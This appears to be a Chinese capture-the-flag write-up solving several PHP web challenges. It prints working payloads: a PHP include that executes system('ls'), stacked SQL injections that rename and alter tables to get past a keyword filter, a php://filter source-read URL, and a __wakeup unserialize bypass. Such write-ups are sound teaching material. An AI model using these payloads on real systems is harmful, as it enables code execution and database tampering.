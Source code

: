 ### Web_php_include
题目源代码
```php
<?php
show_source(__FILE__);
echo $_GET['hello'];
$page=$_GET['page'];
while (strstr($page, "php://")) {
    $page=str_replace("php://", "", $page);
}
include($page);
?>
```

payload
```
http://220.249.52.134:54379/?page=http://127.0.0.1/index.php/?hello=%3C?system(%22ls%22);?%3E
```

page参数指向的是一个网页文件，而这个网页文件中存在恶意脚本<?system("ls");?>，在include时被执行。

### supersqli
注入过程中报错如下：
```php
return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
```
可以使用堆叠注入：
```mysql
1';show tables;#
1';show columns from words;#
1';show columns from `1919810931114514`;# 
1';rename tables `words` to `words1`;rename tables `1919810931114514` to `words`; alter table `words` change `flag` `id` varchar(100);#
1' or 1=1 #
```

### web2
```php
<?php
$miwen="a1zLbgQsCESEIqRLwuQAyMwLyq2L5VwBxqGA3RQAyumZ0tmMvSGM2ZwB4tws";

function encode($str){
    $_o=strrev($str);
    // echo $_o;
        
    for($_0=0;$_0<strlen($_o);$_0++){
       
        $_c=substr($_o,$_0,1);
        $__=ord($_c)+1;
        $_c=chr($__);
        $_=$_.$_c;   
    } 
    return str_rot13(strrev(base64_encode($_)));
}

highlight_file(__FILE__);
/*
   逆向加密算法，解密$miwen就是flag
*/
?>
```
解密
```php
<?php

$a = 'a1zLbgQsCESEIqRLwuQAyMwLyq2L5VwBxqGA3RQAyumZ0tmMvSGM2ZwB4tws';

$b = base64_decode(strrev(str_rot13($a)));
$flag = '';
for($c = 0;$c < strlen($b);$c++){

    $d = substr($b,$c,1);
    $f = chr(ord($d)-1);
    $flag = $flag.$f;
}

echo strrev($flag);

?>
```


### unserialize3
PHP反序列化漏洞：执行unserialize()时，先会调用__wakeup()。

当序列化字符串中属性值个数大于属性个数，就会导致反序列化异常，从而跳过__wakeup()。

### Guess
php伪协议
```python
http://220.249.52.134:41787/?page=php://filter/convert.base64-encode/resource=upload
```
